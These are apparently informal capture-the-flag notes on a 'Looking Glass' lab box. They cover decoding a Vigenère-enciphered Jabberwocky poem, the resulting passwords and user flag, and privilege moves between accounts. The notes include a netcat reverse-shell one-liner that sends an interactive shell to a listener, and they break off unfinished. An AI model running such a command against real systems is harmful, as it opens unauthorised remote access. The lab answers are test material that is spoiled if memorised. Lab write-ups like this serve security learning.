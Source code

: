 # Looking Glass

> John Hammond | August 17th, 2020

----------------------

```
export IP=10.10.186.211
```


Real service is on 12787
THIS PORT CHANGES EVERY TIME

```
You've found the real service.
Solve the challenge to get access to the box
Jabberwocky
'Mdes mgplmmz, cvs alv lsmtsn aowil
Fqs ncix hrd rxtbmi bp bwl arul;
Elw bpmtc pgzt alv uvvordcet,
Egf bwl qffl vaewz ovxztiql.

'Fvphve ewl Jbfugzlvgb, ff woy!
Ioe kepu bwhx sbai, tst jlbal vppa grmjl!
Bplhrf xag Rjinlu imro, pud tlnp
Bwl jintmofh Iaohxtachxta!'

Oi tzdr hjw oqzehp jpvvd tc oaoh:
Eqvv amdx ale xpuxpqx hwt oi jhbkhe--
Hv rfwmgl wl fp moi Tfbaun xkgm,
Puh jmvsd lloimi bp bwvyxaa.

Eno pz io yyhqho xyhbkhe wl sushf,
Bwl Nruiirhdjk, xmmj mnlw fy mpaxt,
Jani pjqumpzgn xhcdbgi xag bjskvr dsoo,
Pud cykdttk ej ba gaxt!

Vnf, xpq! Wcl, xnh! Hrd ewyovka cvs alihbkh
Ewl vpvict qseux dine huidoxt-achgb!
Al peqi pt eitf, ick azmo mtd wlae
Lx ymca krebqpsxug cevm.

'Ick lrla xhzj zlbmg vpt Qesulvwzrr?
Cpqx vw bf eifz, qy mthmjwa dwn!
V jitinofh kaz! Gtntdvl! Ttspaj!'
Wl ciskvttk me apw jzn.

'Awbw utqasmx, tuh tst zljxaa bdcij
Wph gjgl aoh zkuqsi zg ale hpie;
Bpe oqbzc nxyi tst iosszqdtz,
Eew ale xdte semja dbxxkhfe.
Jdbr tivtmi pw sxderpIoeKeudmgdstd
```

Vignere cipher with key `thealphabetcipher`


The secret is: `bewareTheJabberwock`



Gives password:

```
jabberwock:ComparedSmallWhileListened
```

THIS PASSWORD CHANGES EVERY TIME!

ComparedSmallWhileListened
LightCastlesDecidedlyMutton
JoinedBeardSlippedDismal
TrainsDistinctFlushedTwists
DoubtfulClaspingShoutedCommon


user.txt
```
thm{65d3710e9d75d5f346d2bac669119a23}
```


This user can `sudo reboot` without a password, and upon
reboot, `tweetledum` will run the script in the home directory. We can use this to get into that user.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.2.132 4444 >/tmp/f
```

As this `tweedledum` user, we see a `humptydumpty.txt` file.

```
dcfff5eb40423f055a4cd0a8d7ed39ff6cb9816868f5766b4088b9e9906961b9
7692c3ad3540bb803c020b3aee66cd8887123234ea0c6e7143c0add73ff431ed
28391d3bc64ec15cbb090426b04aa6b7649c3cc85f11230bb0105e02d15e3624
b808e156d18d1cecdcc1456375f8cae994c36549a07c8c2315b473dd9d7f404f
fa51fd49abf67705d6a35d18218c115ff5633aec1f9ebfdc9d5d4956416f57f6
b9776d7ddf459c9ad5b0e1d6ac61e27befb5e99fd62446677600d7cacef544d0
5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8
7468652070617373776f7264206973207a797877767574737271706f6e6d6c6b
```

Decoding that with `xxd -r -p`, we see:

```
the password is zyxwvutsrqponmlk
```

This is the password for the `humptydumpty` user.
We cannot seem to SSH in with that. Even changing the password does not allow us to log in.

We do see a new file, `poetry.txt`


Why is there `lxc` here? Why is there a `/tmp/tmux-4`?